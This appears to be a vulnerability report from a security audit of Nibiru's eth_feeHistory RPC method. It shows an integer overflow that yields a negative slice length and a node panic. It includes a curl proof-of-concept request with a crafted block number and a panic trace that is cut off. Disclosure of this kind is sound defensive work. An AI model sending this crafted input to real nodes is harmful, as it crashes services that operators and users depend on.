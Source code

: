 Implementation of eth_FeeHistory RPC method does not verify input parameters.

Lets look at the code from https://github.com/code-423n4/2024-11-nibiru/blob/main/eth/rpc/backend/chain_info.go#L86

```
func (b *Backend) FeeHistory(
        userBlockCount gethrpc.DecimalOrHex, // number blocks to fetch, maximum is 100
        lastBlock gethrpc.BlockNumber, // the block to start search, to oldest
        rewardPercentiles []float64, // percentiles to fetch reward
) (*rpc.FeeHistoryResult, error) {
        blockEnd := int64(lastBlock) //#nosec G701 -- checked for int overflow already

        if blockEnd < 0 {
                blockNumber, err := b.BlockNumber()
                if err != nil {
                        return nil, err
                }
                blockEnd = int64(blockNumber) //#nosec G701 -- checked for int overflow already
        }

        blocks := int64(userBlockCount)                     // #nosec G701 -- checked for int overflow already
        maxBlockCount := int64(b.cfg.JSONRPC.FeeHistoryCap) // #nosec G701 -- checked for int overflow already
        if blocks > maxBlockCount {
                return nil, fmt.Errorf("FeeHistory user block count %d higher than %d", blocks, maxBlockCount)
        }

1.        if blockEnd+1 < blocks {
                blocks = blockEnd + 1
        }
        blockStart := blockEnd + 1 - blocks
        oldestBlock := (*hexutil.Big)(big.NewInt(blockStart))

2.        reward := make([][]*hexutil.Big, blocks)
        rewardCount := len(rewardPercentiles)


```

1) Suppose that blockEnd is max positive value of int64, then 'blocks' will be negative

2) Go tries to allocate array with negative length and panics

How to reproduce:

1) build and run localnet

2) run command:

```
$ curl http://localhost:8545 \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"id": 1, "jsonrpc": "2.0", "method": "eth_feeHistory", "params": ["5","0x7fffffffffffffff", [20,30]] }'

```

3) observe panic in nibiru:
```
ERR RPC method eth_feeHistory crashed: runtime error: makeslice: len out of range
goroutine 1822916 [running]:
github.com/ethereum/go-ethereum/rpc.(*callback).call.func1()
	go/pkg/mod/github.com/!nibiru!chain/go-ethereum@v1.10.27-nibiru/rpc/service.go:200 +0x85
panic({0x3d746a0?, 0x4f66000?})
	golang/go/src/runtime/panic.go:770 +0x132
github.com/NibiruChain/nibiru/v2/eth/rpc/backend.(*Backend).FeeHistory(0xc0010ab188, 0x41d5686?, 0xc00065cfc0?, {0xc010a3f6a0, 0x2, 0x2})
	nibiru/eth/rpc/backend/chain_info.go:110 +0x178
github.com/NibiruChain/nibiru/v2/eth/rpc/rpcapi.(*EthAPI).FeeHistory(0xc0026d0930, 0x5, 0x7fffffffffffffff, {0xc010a3f6a0, 0x2, 0x2})
	nibiru/eth/rpc/rpcapi/eth_api.go:329 +0x77
reflect.Value.call({0xc0026895e0?, 0xc00103f610?, 0x80?}, {0x41c2e9d, 0x4}, {0xc001077b80, 0x4, 0xc001077b80?})
	go/src/reflect/value.go:596 +0xca6
reflect.Value.Call({0xc0026895e0?, 0xc00103f610?, 0x3?}, {0xc001077b80?, 0x16?, 0x16?})
	golang/go/src/reflect/value.go:380 +0xb9
github.com/ethereum/go-ethereum/rpc.(*callback).call(0xc001cd13e0, {0
```

